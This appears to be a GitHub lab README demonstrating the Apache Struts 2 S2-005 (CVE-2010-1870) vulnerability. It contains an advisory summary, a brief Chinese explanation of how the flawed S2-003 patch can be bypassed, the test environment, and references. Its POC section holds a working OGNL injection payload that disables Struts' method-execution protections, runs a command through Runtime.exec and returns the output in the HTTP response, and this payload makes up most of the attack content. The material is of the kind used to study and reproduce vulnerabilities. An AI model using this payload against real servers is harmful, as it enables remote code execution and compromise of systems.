

# S2-005 Demo

## Summary

| Who should read this    | All Struts 2 developers                                      |
| :---------------------- | ------------------------------------------------------------ |
| Impact of vulnerability | Remote server context manipulation                           |
| Maximum security rating | Critical                                                     |
| Recommendation          | Developers should immediately upgrade to [Struts 2.2.1](http://struts.apache.org/download.cgi#struts221) or read the following solution instructions carefully for a configuration change to mitigate the vulnerability |
| Affected Software       | Struts 2.0.0 - Struts 2.1.8.1                                |
| Original JIRA Ticket    | [WW-3470](https://issues.apache.org/jira/browse/WW-3470), [XW-641](http://jira.opensymphony.com/browse/XW-641) |
| Reporter                | Meder Kydyraliev, Google Security Team                       |
| CVE Identifier          | [CVE-2010-1870](http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2010-1870) |
| Original Description    | http://blog.o0o.nu/2010/07/cve-2010-1870-struts2xwork-remote.html |

## Problem

S2-005的出现时因为官方对S2-003的修补的不完全而导致。官方通过增加安全配置禁止静态方法调用（allowStaticMethodAcces）和类方法执行（MethodAccessor.denyMethodExecution）等安全配置来修补，但是该方式可以通过OGNL表达式控制开关。引用一句话：

> S2-003的修补方案把自己上了一个锁，但是把锁钥匙给插在了锁头上

## Environment

| Struts2 Version | struts-2.0.11.2        |
| --------------- | ---------------------- |
| Server          | Tomcat 6.0.9           |
| IDE             | idea 2020.1.1 ULTIMATE |

## POC



payload:

```java
?('\u0023context[\'xwork.MethodAccessor.denyMethodExecution\']\u003dfalse')(bla)(bla)&('\u0023_memberAccess.excludeProperties\u003d@java.util.Collections@EMPTY_SET')(kxlzx)(kxlzx)&('\u0023_memberAccess.allowStaticMethodAccess\u003dtrue')(bla)(bla)&('\u0023mycmd\u003d\'calc\'')(bla)(bla)&('\u0023myret\u003d@java.lang.Runtime@getRuntime().exec(\u0023mycmd)')(bla)(bla)&(A)(('\u0023mydat\u003dnew\40java.io.DataInputStream(\u0023myret.getInputStream())')(bla))&(B)(('\u0023myres\u003dnew\40byte[51020]')(bla))&(C)(('\u0023mydat.readFully(\u0023myres)')(bla))&(D)(('\u0023mystr\u003dnew\40java.lang.String(\u0023myres)')(bla))&('\u0023myout\u003d@org.apache.struts2.ServletActionContext@getResponse()')(bla)(bla)&(E)(('\u0023myout.getWriter().println(\u0023mystr)')(bla))
```

## Reference

- [【Struts2-命令-代码执行漏洞分析系列】S2-003和S3-005](https://xz.aliyun.com/t/2323)

- [S2-005 远程代码执行漏洞](https://github.com/vulhub/vulhub/blob/master/struts2/s2-005/README.zh-cn.md)

* [S2-005](https://cwiki.apache.org/confluence/display/WW/S2-005)

